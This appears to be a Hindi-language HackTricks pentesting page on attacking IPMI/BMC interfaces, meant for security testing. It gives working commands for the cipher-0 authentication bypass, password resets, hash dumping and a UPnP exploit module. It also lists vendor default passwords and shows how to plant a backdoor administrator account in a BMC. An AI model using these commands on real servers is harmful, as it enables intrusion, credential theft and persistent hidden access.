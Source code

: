 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{{#include ../banners/hacktricks-training.md}}


## Basic Information

### **IPMI का अवलोकन**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** कंप्यूटर सिस्टम के दूरस्थ प्रबंधन और निगरानी के लिए एक मानकीकृत दृष्टिकोण प्रदान करता है, जो ऑपरेटिंग सिस्टम या पावर स्थिति से स्वतंत्र है। यह तकनीक सिस्टम प्रशासकों को दूरस्थ रूप से सिस्टम प्रबंधित करने की अनुमति देती है, यहां तक कि जब वे बंद या असंवेदनशील होते हैं, और यह विशेष रूप से उपयोगी है:

- प्री-OS बूट कॉन्फ़िगरेशन
- पावर-ऑफ प्रबंधन
- सिस्टम विफलताओं से पुनर्प्राप्ति

IPMI तापमान, वोल्टेज, फैन स्पीड और पावर सप्लाई की निगरानी करने में सक्षम है, साथ ही इन्वेंटरी जानकारी प्रदान करता है, हार्डवेयर लॉग की समीक्षा करता है, और SNMP के माध्यम से अलर्ट भेजता है। इसके संचालन के लिए एक पावर स्रोत और एक LAN कनेक्शन आवश्यक हैं।

1998 में Intel द्वारा पेश किए जाने के बाद से, IPMI को कई विक्रेताओं द्वारा समर्थित किया गया है, जो दूरस्थ प्रबंधन क्षमताओं को बढ़ाता है, विशेष रूप से संस्करण 2.0 के LAN पर सीरियल के समर्थन के साथ। मुख्य घटक शामिल हैं:

- **Baseboard Management Controller (BMC):** IPMI संचालन के लिए मुख्य माइक्रो-कंट्रोलर।
- **संचार बस और इंटरफेस:** आंतरिक और बाहरी संचार के लिए, जिसमें ICMB, IPMB, और स्थानीय और नेटवर्क कनेक्शनों के लिए विभिन्न इंटरफेस शामिल हैं।
- **IPMI मेमोरी:** लॉग और डेटा संग्रहीत करने के लिए।

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**डिफ़ॉल्ट पोर्ट**: 623/UDP/TCP (यह आमतौर पर UDP पर होता है लेकिन यह TCP पर भी चल सकता है)

## Enumeration

### Discovery
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
आप **संस्करण** का **पहचान** कर सकते हैं:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI Vulnerabilities

IPMI 2.0 के क्षेत्र में, Dan Farmer द्वारा एक महत्वपूर्ण सुरक्षा दोष का पता लगाया गया, जो **cipher type 0** के माध्यम से एक भेद्यता को उजागर करता है। यह भेद्यता, जिसे [Dan Farmer's research](http://fish2.com/ipmi/cipherzero.html) में विस्तार से दस्तावेजित किया गया है, किसी भी पासवर्ड के साथ अनधिकृत पहुंच की अनुमति देती है यदि एक मान्य उपयोगकर्ता को लक्षित किया जाए। यह कमजोरी HP, Dell, और Supermicro जैसे निर्माताओं के विभिन्न BMCs में पाई गई, जो सभी IPMI 2.0 कार्यान्वयन में एक व्यापक समस्या का सुझाव देती है।

### **IPMI Authentication Bypass via Cipher 0**

इस दोष का पता लगाने के लिए, निम्नलिखित Metasploit सहायक स्कैनर का उपयोग किया जा सकता है:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
इस दोष का शोषण `ipmitool` के साथ किया जा सकता है, जैसा कि नीचे प्रदर्शित किया गया है, जो उपयोगकर्ता पासवर्ड की सूची बनाने और संशोधित करने की अनुमति देता है:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP प्रमाणीकरण दूरस्थ पासवर्ड हैश पुनर्प्राप्ति**

यह सुरक्षा कमी किसी भी मौजूदा उपयोगकर्ता नाम के लिए नमकीन हैश किए गए पासवर्ड (MD5 और SHA1) की पुनर्प्राप्ति की अनुमति देती है। इस सुरक्षा कमी का परीक्षण करने के लिए, Metasploit एक मॉड्यूल प्रदान करता है:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI गुमनाम प्रमाणीकरण**

कई BMCs में एक डिफ़ॉल्ट कॉन्फ़िगरेशन "गुमनाम" पहुँच की अनुमति देता है, जिसे शून्य उपयोगकर्ता नाम और पासवर्ड स्ट्रिंग द्वारा पहचाना जाता है। इस कॉन्फ़िगरेशन का उपयोग `ipmitool` का उपयोग करके नामित उपयोगकर्ता खातों के पासवर्ड को रीसेट करने के लिए किया जा सकता है:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI स्पष्ट-पाठ पासवर्ड**

IPMI 2.0 में एक महत्वपूर्ण डिज़ाइन विकल्प BMCs के भीतर प्रमाणीकरण उद्देश्यों के लिए स्पष्ट-पाठ पासवर्डों के भंडारण की आवश्यकता करता है। Supermicro द्वारा इन पासवर्डों को `/nv/PSBlock` या `/nv/PSStore` जैसे स्थानों में संग्रहीत करने से महत्वपूर्ण सुरक्षा चिंताएँ उठती हैं:
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP Vulnerability**

Supermicro के IPMI फर्मवेयर में UPnP SSDP श्रोता का समावेश, विशेष रूप से UDP पोर्ट 1900 पर, एक गंभीर सुरक्षा जोखिम प्रस्तुत करता है। Intel SDK for UPnP Devices संस्करण 1.3.1 में कमजोरियाँ, जैसा कि [Rapid7's disclosure](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play) में विस्तृत किया गया है, BMC तक रूट एक्सेस की अनुमति देती हैं:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### ब्रूट फोर्स

**HP अपने** **इंटीग्रेटेड लाइट्स आउट (iLO)** **उत्पाद के लिए डिफ़ॉल्ट पासवर्ड को यादृच्छिक बनाता है**। यह प्रथा अन्य निर्माताओं के विपरीत है, जो आमतौर पर **स्थिर डिफ़ॉल्ट क्रेडेंशियल्स** का उपयोग करते हैं। विभिन्न उत्पादों के लिए डिफ़ॉल्ट उपयोगकर्ता नाम और पासवर्ड का सारांश निम्नलिखित है:

- **HP इंटीग्रेटेड लाइट्स आउट (iLO)** एक **फैक्टरी यादृच्छिक 8-चरित्र स्ट्रिंग** को अपने डिफ़ॉल्ट पासवर्ड के रूप में उपयोग करता है, जो उच्च सुरक्षा स्तर को दर्शाता है।
- **Dell के iDRAC, IBM के IMM**, और **Fujitsu के इंटीग्रेटेड रिमोट मैनेजमेंट कंट्रोलर** जैसे उत्पाद आसानी से अनुमानित पासवर्ड का उपयोग करते हैं जैसे "calvin", "PASSW0RD" (शून्य के साथ), और "admin" क्रमशः।
- इसी तरह, **Supermicro IPMI (2.0), Oracle/Sun ILOM**, और **ASUS iKVM BMC** भी सरल डिफ़ॉल्ट क्रेडेंशियल्स का उपयोग करते हैं, जिनमें "ADMIN", "changeme", और "admin" उनके पासवर्ड के रूप में कार्य करते हैं।

## BMC के माध्यम से होस्ट तक पहुँच

बेसबोर्ड प्रबंधन नियंत्रक (BMC) तक प्रशासनिक पहुँच होस्ट के ऑपरेटिंग सिस्टम तक पहुँचने के लिए विभिन्न मार्ग खोलती है। एक सीधा दृष्टिकोण BMC के कीबोर्ड, वीडियो, माउस (KVM) कार्यक्षमता का लाभ उठाना है। यह या तो GRUB के माध्यम से रूट शेल पर होस्ट को पुनः प्रारंभ करके (`init=/bin/sh`) या एक वर्चुअल CD-ROM से बूट करके किया जा सकता है जिसे एक बचाव डिस्क के रूप में सेट किया गया है। ऐसे तरीके होस्ट के डिस्क में सीधे हेरफेर की अनुमति देते हैं, जिसमें बैकडोर डालना, डेटा निकालना, या सुरक्षा मूल्यांकन के लिए आवश्यक कोई भी कार्रवाई शामिल है। हालाँकि, इसके लिए होस्ट को पुनः प्रारंभ करना आवश्यक है, जो एक महत्वपूर्ण कमी है। बिना पुनः प्रारंभ किए, चल रहे होस्ट तक पहुँच अधिक जटिल है और होस्ट की कॉन्फ़िगरेशन के साथ भिन्न होती है। यदि होस्ट का भौतिक या अनुक्रमणीय कंसोल लॉग इन रहता है, तो इसे BMC के KVM या सीरियल-ओवर-LAN (sol) कार्यक्षमताओं के माध्यम से `ipmitool` के माध्यम से आसानी से नियंत्रित किया जा सकता है। साझा हार्डवेयर संसाधनों, जैसे i2c बस और सुपर I/O चिप के शोषण की खोज एक ऐसा क्षेत्र है जिसे आगे की जांच की आवश्यकता है।

## होस्ट से BMC में बैकडोर डालना

BMC से लैस एक होस्ट को समझौता करने पर, **स्थानीय BMC इंटरफ़ेस का उपयोग करके एक बैकडोर उपयोगकर्ता खाता डाला जा सकता है**, जो सर्वर पर एक स्थायी उपस्थिति बनाता है। इस हमले के लिए **`ipmitool`** का होस्ट पर होना और BMC ड्राइवर समर्थन का सक्रियण आवश्यक है। निम्नलिखित कमांड दर्शाती हैं कि कैसे एक नया उपयोगकर्ता खाता होस्ट के स्थानीय इंटरफ़ेस का उपयोग करके BMC में इंजेक्ट किया जा सकता है, जो प्रमाणीकरण की आवश्यकता को बायपास करता है। यह तकनीक लिनक्स, विंडोज, BSD, और यहां तक कि DOS सहित विभिन्न ऑपरेटिंग सिस्टम पर लागू होती है।
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

- `port:623`

## References

- [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)


{{#include ../banners/hacktricks-training.md}}
